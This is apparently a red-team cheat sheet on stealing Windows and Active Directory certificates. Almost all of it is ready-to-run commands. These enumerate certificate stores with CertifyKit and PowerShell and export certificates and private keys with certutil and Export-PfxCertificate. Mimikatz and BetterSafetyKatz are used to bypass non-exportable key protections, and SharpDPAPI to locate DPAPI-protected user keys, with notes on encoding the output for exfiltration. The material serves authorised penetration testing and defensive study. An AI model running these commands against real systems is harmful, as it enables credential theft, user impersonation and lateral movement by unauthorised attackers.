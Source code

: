 - https://github.com/Hagrid29/CertifyKit
```
# Current user store
.\CertifyKit.exe list

# Machine store
.\CertifyKit.exe list /storename:my /storelocation:localmachine
```

```
# User store
Get-ChildItem Cert:\CurrentUser\My -Recurse
Get-ChildItem Cert:\CurrentUser\ -Recurse

# Machine store
Get-ChildItem Cert:\LocalMachine\My -Recurse
Get-ChildItem Cert:\LocalMachine\ -Recurse
```

#### Export certificates
```
certutil -p <PASSWORD> -exportpfx <SERIAL ID> cert.pfx
```

- Use `/base64` to exfil in base64 encoded file
```
.\CertifyKit.exe list /certificate:<SERIAL ID> /outfile:cert.pfx
.\CertifyKit.exe list /storename:my /storelocation:localmachine /certificate:<SERIAL ID> /outfile:cert.pfx
```

```
$mypwd = ConvertTo-SecureString -String "<PASSWORD>" -Force -AsPlainText
Export-PfxCertificate -Cert Cert:\LocalMachine\My\<SERIAL ID> -FilePath cert.pfx -Password $mypwd
```

- If CAPI or CNG APIs are configured to block the private key export and not allow extraction of non-exportable certificates, Use Mimikatz to export private keys
```
.\Mimikatz.exe "crypto::capi" "privilege::debug" "crypto::certificates /systemstore:local_machine /store:my /export" "exit"

.\BetterSafetyKatz.exe -args "crypto::capi" "privilege::debug" "crypto::certificates /systemstore:local_machine /store:my /export" "exit"
```

### THEFT2 Get User Certificate DPAPI
- User certificates stored in:
	- Registry: `HKEY_CURRENT_USER\SOFTWARE\Microsoft\SystemCertificate`
	- Disk: `%APPDATA%\Microsoft\SystemCertificates\My\Certificate`
- User private keys:
	- CAPI keys `%APPDATA%\Microsoft\Crypto\RSA\User SID`
	- CNG keys `%APPDATA%\Microsoft\Crypto\Keys\`

#### SharpDPAPI find certificates
```
.\SharpDPAPI.exe certificates
```
